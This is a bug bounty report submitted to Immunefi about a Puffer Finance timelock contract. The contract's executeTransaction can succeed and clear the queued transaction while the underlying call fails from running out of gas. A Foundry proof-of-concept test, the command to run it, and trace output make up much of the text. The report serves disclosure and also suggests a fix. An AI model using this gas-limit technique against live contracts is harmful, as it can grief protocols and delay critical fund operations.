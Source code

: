 
# Timelock transaction that consume more then `209_595` gas will not be executed but the upper transaction will succeed

Submitted on Thu Feb 22 2024 11:00:05 GMT-0400 (Atlantic Standard Time) by @OxDEADBEEF for [Boost | Puffer Finance](https://immunefi.com/bounty/pufferfinance-boost/)

Report ID: #28623

Report type: Smart Contract

Report severity: Low

Target: https://etherscan.io/address/0xd9a442856c234a39a81a089c06451ebaa4306a72

Impacts:
- Contract fails to deliver promised returns, but doesn't lose value
- Temporary freezing of funds for at least 1 hour
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro

The timelock's `executeTransaction` does not validate that it has enough gas to execute the underlying transaction.  Because of eip-150's `63/64` gas rule - transactions that need more then `209_595` gas to execute can fail due to out of gas while the parent transaction transaction has enough gas (1/64) to successfully finish the transaction

## Vulnerability Details

`executeTransaction` calls the `target` with the `callData`. 
```solidity
    function executeTransaction(address target, bytes calldata callData, uint256 operationId)
        external
        returns (bool success, bytes memory returnData)
    {
--------------
        queue[txHash] = 0;
        (success, returnData) = _executeTransaction(target, callData);

        emit TransactionExecuted(txHash, target, callData, operationId);

        return (success, returnData);
    }
    
function _executeTransaction(address target, bytes calldata callData) internal returns (bool, bytes memory) {
        // slither-disable-next-line arbitrary-send-eth
        return target.call(callData);
    }
```

As can be seen above - After calling the target, not much gas is needed to finish the transaction. After EIP-150 the EVM reserves 1/64 of the gas consumed target so that `executeTransaction` can finish the transaction. 
As seen in the POC - the minimum amount of gas target needs to consume in order to leave enough gas for the transaction to succeed is `209_595`. 

If target needs more then that - the target can fail due to out of gas while the `executeTransaction` and the transaction will be deleted from the queue: 

1. `executeTransaction` is called with `214_640` gas.
2. `target` consumes all `209_595` gas and runs out
3. Upper transaction did not revert and `queue[txHash] = 0;` . 

I suggest to check after the call to target if there is more then needed gasleft 

## Impact Details

When the `OPERATIONS_MULTISIG` calls `executeTransaction` to execute a long waited transaction it can by mistake or maliciously set the exact gas needed for `executeTransaction` to succeed but the underlying call to target will fail. 

This means that the transaction would need to be listed again in the timelock. If the call to target resolves around movement of funds or any other critical operation - it will be delayed
        
## Proof of concept
## Proof of Concept

Add the following function to `Timelock.t.sol`

```solidity
    function gasConsumingFunc() external {
        uint256 gasToConsume = 209595;
        uint256 gasStart = gasleft();
        for(uint256 i = 0; gasStart - gasleft() < gasToConsume; i++ ) {
            assembly {
                let x := mload(0x1337)
            }
        }
    }
    function test_execute_fails() public {
        vm.startPrank(timelock.OPERATIONS_MULTISIG());

        bytes memory callData = abi.encodeCall(this.gasConsumingFunc, ());

        uint256 operationId = 1234;

        bytes32 txHash = timelock.queueTransaction(address(this), callData, operationId);

        uint256 lockedUntil = block.timestamp + timelock.delay();
        
        vm.warp(lockedUntil + 20);

        uint256 gasToUse = 214_640;
        timelock.executeTransaction{gas: gasToUse}(address(this), callData, operationId);
    }
```

To run the test:
```
forge test --match-test test_execute_fails -vvvv
```

Expected output:
```
[PASS] test_execute_fails() (gas: 236021)
Traces:
  [236021] TimelockTest::test_execute_fails()
    ├─ [227] Timelock::OPERATIONS_MULTISIG() [staticcall]
    │   └─ ← operationsMultisig: [0x78dE5808728A273648A7D301D7767C4fd5Dc0fF6]
    ├─ [0] VM::startPrank(operationsMultisig: [0x78dE5808728A273648A7D301D7767C4fd5Dc0fF6])
    │   └─ ← ()
    ├─ [29140] Timelock::queueTransaction(TimelockTest: [0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496], 0x70c61722, 1234)
    │   ├─ emit TransactionQueued(txHash: 0x2f606a6f8ff5ba05ce0676cf365e2a06b4c8689e009403cf2324b015a1f0fe7d, target: TimelockTest: [0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496], callData: 0x70c61722, operationId: 1234, lockedUntil: 604802 [6.048e5])
    │   └─ ← 0x2f606a6f8ff5ba05ce0676cf365e2a06b4c8689e009403cf2324b015a1f0fe7d
    ├─ [404] Timelock::delay() [staticcall]
    │   └─ ← 604801 [6.048e5]
    ├─ [0] VM::warp(604822 [6.048e5])
    │   └─ ← ()
    ├─ [214640] Timelock::executeTransaction(TimelockTest: [0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496], 0x70c61722, 1234)
    │   ├─ [209600] TimelockTest::gasConsumingFunc()
    │   │   └─ ← EvmError: OutOfGas
    │   ├─ emit TransactionExecuted(txHash: 0x2f606a6f8ff5ba05ce0676cf365e2a06b4c8689e009403cf2324b015a1f0fe7d, target: TimelockTest: [0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496], callData: 0x70c61722, operationId: 1234)
    │   └─ ← false, 0x
    └─ ← ()

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 8.51ms
```

As can be seen the transaction succeeds while `gasConsumingFunc` fails
```
    │   ├─ [209600] TimelockTest::gasConsumingFunc()
    │   │   └─ ← EvmError: OutOfGas
---------
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 8.51ms
```